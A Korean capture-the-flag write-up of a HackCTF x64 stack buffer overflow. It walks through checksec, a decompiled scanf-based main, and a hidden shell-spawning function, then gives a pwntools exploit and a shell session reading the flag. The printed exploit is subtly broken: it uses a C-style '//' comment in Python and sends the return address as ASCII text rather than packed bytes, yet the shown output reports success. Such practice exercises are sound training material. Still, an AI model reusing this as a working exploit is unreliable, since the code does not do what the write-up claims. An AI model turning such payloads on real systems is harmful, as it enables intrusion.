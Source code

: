 # x64 Buffer Overflow

```c

kimdong@ubuntu  ~/Wargame  file 64bof_basic
64bof_basic: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=f36fc5ac99f79e7cfa367880978afc9a5b4367d7, not stripped

kimdong@ubuntu  ~/Wargame  checksec 64bof_basic
[*] '/home/kimdong/Wargame/64bof_basic'
   Arch:     amd64-64-little
   RELRO:    Full RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x400000)
```
이번 바이너리 파일은 64-bit이며, Full RELRO 와 NX bit가 enable 되어있다.<br>

 ```c
 kimdong@ubuntu  ~/Wargame  ./64bof_basic
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 ```
실행시켜보면, 받은 입력값을 Hello와 함께 출력을 시켜주는 형태이다.<br>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+10h] [rbp-110h]
  int v5; // [rsp+11Ch] [rbp-4h]

  _isoc99_scanf("%s", &s, envp);
  v5 = strlen(&s);
  printf("Hello %s\n", &s);
  return 0;
}
```
ida로 main문을 확인해보면, scanf로 문자열을 받고 v5에 strlen함수를 통해 s의 길이를 저장한다.<br>
이후에, Hello와 함께 s를 printf로 출력해준다.<br>
s문자열은 scanf함수를 이용하므로, BOF취약점을 사용할 수 있을것으로 보여진다.<br>
scanf함수의 return 주소를 다른 주소로 덮어씌워주면 되는데, 바꿔줄 주소를 찾아보자.<br>

```c
int callMeMaybe()
{
  char *path; // [rsp+0h] [rbp-20h]
  const char *v2; // [rsp+8h] [rbp-18h]
  __int64 v3; // [rsp+10h] [rbp-10h]

  path = "/bin/bash";
  v2 = "-p";
  v3 = 0LL;
  return execve("/bin/bash", &path, 0LL);
}
```
ida로 확인해본 결과 `callMeMaybe`라는 함수가 존재한다.<br>
callMeMaybe는 쉘을 띄워주는 함수로, scanf의 return address를 이 함수의 주소로 바꿔주면 해결가능할 것으로 보인다.<br>
callMeMaybe의 주소는 `0x0000000000400606`이다.
s는 `rbp-0x110`부터 `rbp-0x4`까지로 보인다.<br>
따라서 `rbp-0x110`-`rbp-0x4`-`callMeMaybe의 주소`+0x4 만큼 더비를 채워주고 `callMeMaybe address`를 주면 될것같다.<br>

----
## Exploit Code

```c
from pwn import *
p = remote("ctf.j0n9hyun.xyz",3004)
payload = "A"*(0x110+0x8) // buffer 크기 + SFP크기
payload += "0x0000000000400606"
p.sendline(payload)
p.interactive()
```

```c
kimdong@ubuntu  ~/Wargame  python 64bof_basic_ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3004: Done
[*] Switching to interactive mode
$ ls
flag
main
$ cat flag
HackCTF{}
```
## END !
